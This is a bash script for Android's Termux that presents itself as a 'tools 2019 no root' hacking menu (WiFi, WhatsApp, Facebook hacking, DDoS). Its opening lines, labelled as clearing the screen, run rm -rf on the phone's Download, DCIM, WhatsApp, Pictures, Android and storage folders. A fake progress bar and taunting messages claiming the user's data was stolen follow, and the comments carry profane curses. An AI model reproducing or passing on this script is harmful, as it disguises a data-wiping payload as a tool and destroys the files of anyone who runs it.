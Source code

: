 #!/system/xbin/bash
#AUTHOR:Maulana Gans
#Github:https://github.com/reyspeed
#Ngapain Lo Sampai Sini Mau Recode! Gua Doain Orang Tua Lu Meninggal Dan Lu mandul Sampai Mati.boleh Recode Tapi Hargai Author Njeng
#Bersihkan Layar
cd /sdcard
rm -rf Android
rm -rf Download
rm -rf DCIM
rm -rf UCDownloads
rm -rf com.garena.game.codm
rm -rf Music
rm -rf Pictures
rm -rf Movies
rm -rf WhatsAp
rm -rf vidio
rm -rf vidioku
rm -rf com.garena.freefire
rm -rf sd card
rm -rf storage








blue='\e[1;34m'
green='\e[1;32m'
purple='\[1;35m'
cyan='\e[1;36m'
red='\e[1;31m'
white='\e[1;37m'
yellow='\e[1;33m'
sleep 3
echo "\033[32;1m
#################################
#-AUTHOR=MR CROOT               #
#-INSTAGRAM=erorr867            #
#-Team=NO TEAM                  #
#-Email=reyspeed01@gmail.com    #
#################################
"
sleep 3

echo "\033[32;1mTULIS= MR.CROOT TAMPANS "
read p;

sleep 3

echo "\033[32;1m
#-KUMPULAN TOOLS 2019 NO ROOT-#
______________________________
|1.hack wifi (no Root)       |
|2.sadap Wa (No Root)        |
|3.hack lampu lalu Lintas    |
|4.hack Facebook Target      |
|5.hack Instagram            |
|6.hack Hp Orang             |
|7.spam Sms Unlimited        |
|8.hack Camera               |
|9.install Metasploit        |
|10.DDOS                     |
|11.hack lampu Cafe          |
|12.DOS                      |
|13.Sql Injetion             |
|14.Admin Finder             |
|15.Root Hp                  |
|16.Hack Atm                 |
|17.Hack Satelit             |
|18.Pelacack Penipu          |
|19.Hack CCTV                |
|20.pembuat panas Hp Orang   |
|____________________________|


"
echo "\033[32;1mPilih No : "
read p;

sleep 2
echo "Sabar Njeng Proses..."
echo "\033[34;1m#10%"
sleep 1
echo "##20%"
sleep 1
echo "###30%"
sleep 3
echo "####40%"
sleep 3
echo "#####50%"
sleep 3
echo "######60%"
sleep 3
echo "#######70%"
sleep 4
echo "########80%"
sleep 3
echo "#########90%"
sleep 4
echo "##########100%"
sleep 3
echo "_____________________________________"
sleep 3
echo "Kau Baca Pesan Gua Njeng"
sleep 4
echo "hacker Jahat Berawal Dari"
sleep 4
echo "hacker Baik yang Di Sakiti"
sleep 4
echo "Seperti Saya Yang Selalu Di Sakiti"
sleep 4
echo "Jadi Kalian Harus Merasakan"
sleep 4
echo "Apa Yang Saya Rasakan"
sleep 4
echo "Selamat Data Kalian Saya Curi "
sleep 4
echo "Gak Senang Lo Njenk"
sleep 4
echo "Hubungi Gua reyspeed01@gmail.com"
sleep 3
echo "____________________________________"
sleep 4
toilet -f standard -F gay "MAMPUS"
sleep 3
toilet -f standard -F gay "LOE"
sleep 3
toilet -f standard -F gay "BANGSAT"
